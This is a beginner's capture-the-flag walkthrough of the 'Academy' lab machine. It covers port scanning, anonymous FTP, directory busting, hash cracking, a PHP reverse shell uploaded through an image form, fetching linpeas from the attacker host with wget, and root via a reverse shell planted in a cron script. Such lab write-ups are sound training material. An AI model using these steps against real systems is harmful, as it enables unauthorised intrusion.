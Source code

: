 The name of this mahine is ACADEMY. It was gottem as I was studying the practical ethical hacking course on TCM ACADEMY. This writeup will be a walkthrough on it. I ran it on a virtual machine to get the IP of the machie.

Advice to beginners just like me, I won't advise you follow this walkthrough back to back as it will not really help you progress well in your journey. You can just come here to check when you get stuck and have tried all possible things you know before.

First we load our machine and get our IP address. For that we use the command <ip a> and we copy our IP address. That will be the target IP. 

![image](https://github.com/Bangis041/academy-/assets/74382096/9c438e88-5791-4089-83fe-921446e9cc60)

We start by doing the normal, scanning for ports to see which ports are opened and vulnerable. For this, I did a nmap scan with SYNTAX: <nmap -A -p- IP>

![image](https://github.com/Bangis041/academy-/assets/74382096/3d764b7f-820c-41d3-b1d1-34811b658b62)

From the scan above, we can see we had a number of opened ports. Port 21 looked interesting since it's the first and has a content we would like to view and also, anonymous FTP login allowed.

For ud to check that out, we use <ftp IP> and then we are able to list what files are there.

![image](https://github.com/Bangis041/academy-/assets/74382096/d07f7c83-9256-4046-a6b6-6cf56a21cb1e)

Here we downloaded the note.txt file and saw some intersting informatio that might be helpful eventually.

After that, we check out the next port that might matter to us. SSH is not it so we move down to port 80 which was a webserver.

After loading the website, there was no much information. we only knew what technology was behind it.

![image](https://github.com/Bangis041/academy-/assets/74382096/53b38ac7-4519-4202-90c5-ca4b81d25de3)

Here we proceed to using a directory buster. I will be using gobuster in this instance. SYNTAX: <gobuster dir -u http://IP -w wordlist_file/path>.

![image](https://github.com/Bangis041/academy-/assets/74382096/bdcf9185-6b31-4618-b9a2-1d6e827a3332)

Afer scanning we were able to get two directories. One interests me more and that is /academy. Why? Because I saw something that has to do with student in the note.txt file we saw from FTP. Now we search for http://IP/academy. After loading, we get to see a login page that requires us to use a REG NO and password. I did that using the informatio from the note.txt and i got an error

![image](https://github.com/Bangis041/academy-/assets/74382096/3282bcab-4f23-4414-895c-ded129a73056)

so i looked at the password again and realized it was not a password but a hash. Most students used weak passwords😂. I simply used https://crackstation.net to crack the password and it was "student" so i logged in and said to myself "I'm IN !!!" hehe.

![image](https://github.com/Bangis041/academy-/assets/74382096/64a793e0-cdc9-4e1b-8199-4617a0b93152)

After getting in, the only interesting thing here was that there was a place to upload images. Good news is that not only images an be uploaded there, .php files could also be uploaded. I used that to my advantage to get a reverse shell. I simply searched on google fpr php reverse shell. I copied the codeinto a file, activated a listener and uploaded the file and I WAS IN ONCE AGAIN😂. I tried running <sudo -l> to check if i gain root access, it gave an error. So then i realised i needed to use an automation tool i learnt about on https://tryhackme.com/r/room/linprivesc. Simply go to google and search 'linpeas'. I found the script, 

![image](https://github.com/Bangis041/academy-/assets/74382096/2437bec1-dff5-49ae-9557-dd9d001422cb)

i copied and pasted in a .sh file i named linpeas. Now i have to transfer the file to the shell by hosting a webserver ad using wget. since I am transferring from my machine to the target's mahine, i use <wget http://MY_IP/file>

![image](https://github.com/Bangis041/academy-/assets/74382096/040247fa-141e-4d1f-ab19-828aaee7d1f8). 

Now is time to change the permission to make it executable and then run!!!. 

![image](https://github.com/Bangis041/academy-/assets/74382096/269bb845-d796-4154-81b7-ddd10c3906ee)

We were given what to look out for also...made work easier. While scrolling through, I was able to get this...* * * * * /home/grimmie/backup.sh and also this 👇

![image](https://github.com/Bangis041/academy-/assets/74382096/a4edae2d-e509-426d-990c-a40d80c03c68) and also a password that kept repeating itself in multiple instances. I think now is time i use port 22 which is SSH since we have confirmed that Grimmie is a user and we have a possible password. SYNTAX for SSH: <ssh user@IP> and guess what again guys...I'm in🥱. 

![image](https://github.com/Bangis041/academy-/assets/74382096/481ae434-82a8-40db-bdd9-f84eac966f9d)

Now it's looking like it's a dead end after trying sudo -l. I checked the content of backupsh and realised it supposed to run at some point. Crontabs did not work so i used ps aux to list processes and we can see it is running as root user. Maybe we are correct.

![image](https://github.com/Bangis041/academy-/assets/74382096/94de302c-2c28-410a-b51c-a7f04ad8f0ee). 

From here, we head over to google.com as it is out best friend to ask it asbout "bash reverse shell one liner" and we see a link on pentestmonkey. 

![image](https://github.com/Bangis041/academy-/assets/74382096/319e4683-a49a-43a1-82a7-01a53a3994f6)

We get a command to use to get a shell...Let's try it and see what comes.
![image](https://github.com/Bangis041/academy-/assets/74382096/17267a78-6af2-4561-85c6-37bd8fb39fd1).

For this to work, we have to set up a listener on our machine and specify the port we are listening on. For me it is 5678.

![image](https://github.com/Bangis041/academy-/assets/74382096/198043da-f221-4a9a-b9eb-19b27c9805e3).

We then wait for it to run, I waited for about 28seconds and I AM IN!!!!!

![image](https://github.com/Bangis041/academy-/assets/74382096/5203fc05-b3bb-44bf-8590-abcfcb7113e3)

Just find the flag and at it out. 

![image](https://github.com/Bangis041/academy-/assets/74382096/b87492b2-0a0e-47d5-b436-275268df8453)
